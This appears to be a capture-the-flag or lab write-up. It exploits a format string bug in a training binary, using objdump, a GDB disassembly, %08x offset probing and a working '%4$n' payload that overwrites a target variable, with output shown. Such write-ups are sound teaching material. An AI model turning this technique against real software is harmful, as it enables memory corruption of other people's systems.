

# ex07 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh
objdump -t bin | grep target 
```

This command provides the address of the `target` variable:

```plaintext
080496e4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496e4`.

### 2\. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x218,%esp
   0x0804845d <+9>:     int3
   0x0804845e <+10>:    fcoms  0x44890804(%esi)
   0x08048464 <+16>:    and    $0x8,%al
   0x08048466 <+18>:    movl   $0x200,0x4(%esp)
   0x0804846e <+26>:    lea    -0x208(%ebp),%eax
   0x08048474 <+32>:    mov    %eax,(%esp)
   0x08048477 <+35>:    call   0x804835c <fgets@plt>
   0x0804847c <+40>:    lea    -0x208(%ebp),%eax
   0x08048482 <+46>:    mov    %eax,(%esp)
   0x08048485 <+49>:    call   0x804837c <printf@plt>
   0x0804848a <+54>:    mov    0x80496e4,%eax
   0x0804848f <+59>:    cmp    $0x40,%eax
   0x08048492 <+62>:    jne    0x80484a2 <vuln+78>
   0x08048494 <+64>:    movl   $0x8048590,(%esp)
   0x0804849b <+71>:    call   0x804838c <puts@plt>
   0x080484a0 <+76>:    jmp    0x80484b9 <vuln+101>
   0x080484a2 <+78>:    mov    0x80496e4,%edx
   0x080484a8 <+84>:    mov    $0x80485b0,%eax
   0x080484ad <+89>:    mov    %edx,0x4(%esp)
   0x080484b1 <+93>:    mov    %eax,(%esp)
   0x080484b4 <+96>:    call   0x804837c <printf@plt>
   0x080484b9 <+101>:   leave
   0x080484ba <+102>:   ret
End of assembler dump.
```

### 3\. Finding the Correct Offset

Test the binary with different format string inputs to find the correct offset:

```sh

python -c "print('AAAA ' + ' %08x' * 30)" | ./bin
```

Output:

```plaintext

AAAA  00000200 b7765c20 b7781328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
target is 0 :(
```

### 4\. Craft the Payload

Based on the offset identified, we craft the payload to overwrite the `target` variable:

```sh

python -c "print('\xe4\x96\x04\x08' + 'A'*60 + '%4\$n')" | ./bin
```

Output:

```plaintext

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```
 


Conclusion
----------

By carefully analyzing the binary and using a format string vulnerability, we were able to modify the `target` variable and complete the level. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

Challenges and Learnings
------------------------

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets in GDB.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.
